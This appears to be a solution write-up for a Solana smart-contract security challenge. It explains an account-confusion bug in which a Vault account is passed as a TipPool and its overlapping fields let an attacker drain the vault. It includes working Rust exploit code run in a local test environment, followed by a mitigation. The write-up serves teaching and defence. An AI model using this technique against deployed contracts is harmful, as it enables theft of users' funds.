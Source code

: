 # Solution - Account Confusion

The vulnerability in this contract is called *account confusion*. Outside of solana smart contracts this type of vulnerability is called *type confusion*. It happens whenever data is misinterpreted. Programs often have to rely on a certain data structure, and it sometimes doesn’t verify the type of object it receives. Instead, it uses it blindly without type-checking. Users also often can not control the data directly for a certain type, but for another one they can. A type confusion bug can mean that a program expects that the data cannot be user controlled, but it fails to check the type, therefore a malicious attacker trick the program to use the controlled data instead. For example, in this instance an attacker can initialize a second vault and use the withdraw instruction with the vault account as a pool account.

In this case, we confuse a `TipPool` with a `Vault`. The fields will overlap nicely resulting in e.g. the `TipPool.value` overlapping with the `Vault.fee`.

```rust
pub struct TipPool {
    pub withdraw_authority: Pubkey, // at the same position as Vault::creator
    pub value: u64,                 // at the same position as Vault::fee
    pub vault: Pubkey,              // at the same position as Vault::fee_recipient
}

pub struct Vault {
    pub creator: Pubkey,
    pub fee: f64,              
    pub fee_recipient: Pubkey,
    pub seed: u8,
}
```

Another thing that may be tricky to wrap your head around is that the program can be initialized twice, PDAs can be derived by a different seed result in different addresses, while in this case this is totally intended, there can be some cases, where not knowing this can lead to serious vulnerabilities.

Here is the example exploit code that Felipe, one of our colleagues, wrote:

```rust
fn hack(env: &mut LocalEnvironment, challenge: &Challenge) {
    let seed: u8 = 1;
    let hacker_vault_address =
        Pubkey::create_program_address(&[&[seed]], &challenge.tip_program).unwrap();

    env.execute_as_transaction(
        &[level3::initialize(
            challenge.tip_program,
            hacker_vault_address,      // new vault's address
            challenge.hacker.pubkey(), // initializer_address. Aliases with TipPool::withdraw_authority
            seed,                      // seed != original seed, so we can create an account
            2.0,                       // some fee. Aliases with TipPool::amount (note u64 != f64. Any value >1.0 is a huge u64)
            challenge.vault_address,   // fee_recipient. Aliases with TipPool::vault
        )],
        &[&challenge.hacker],
    )
    .print();

    let amount = env.get_account(challenge.vault_address).unwrap().lamports;

    env.execute_as_transaction(
        &[level3::withdraw(
            challenge.tip_program,
            challenge.vault_address,
            hacker_vault_address,
            challenge.hacker.pubkey(),
            amount,
        )],
        &[&challenge.hacker],
    )
    .print();
}
```

# Mitigation

By adding a type attribute to all accounts, this vulnerability can be prevented (details [here](https://blog.neodyme.io/posts/solana_common_pitfalls#solana-account-confusions)).